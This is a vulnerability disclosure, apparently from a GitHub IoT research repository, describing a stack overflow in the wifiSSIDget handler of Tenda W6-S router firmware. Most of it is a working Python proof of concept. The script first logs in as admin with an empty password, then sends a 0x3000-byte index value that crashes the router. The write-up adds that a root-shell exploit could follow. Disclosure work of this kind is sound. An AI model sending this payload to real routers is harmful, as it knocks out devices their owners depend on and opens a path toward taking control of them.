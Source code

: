 # Tenda W6-S V1.0.0.4(510) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2627.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/wifiSSIDget/img/2.png)

In /goform/wifiSSIDget, when wl_radio is 0, the index will be spliced into v93 by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

target_url = 'http://192.168.10.105/login/Auth'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '65',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}
p1 = 'usertype=admin&password=&time=2022;7;6;14;9;6&username='

requests.post(target_url, headers = target_headers, data = p1, verify = False, timeout = 1)

target_url = 'http://192.168.10.105/goform/wifiSSIDget'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '295',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}

p2 = 'wl_radio=0&index=' + 'a' * 0x3000
requests.post(target_url, headers = target_headers, data = p2, verify = False, timeout = 1)
```

After sending the poc, the router will crash, and finally we can write the exp to get the root shell
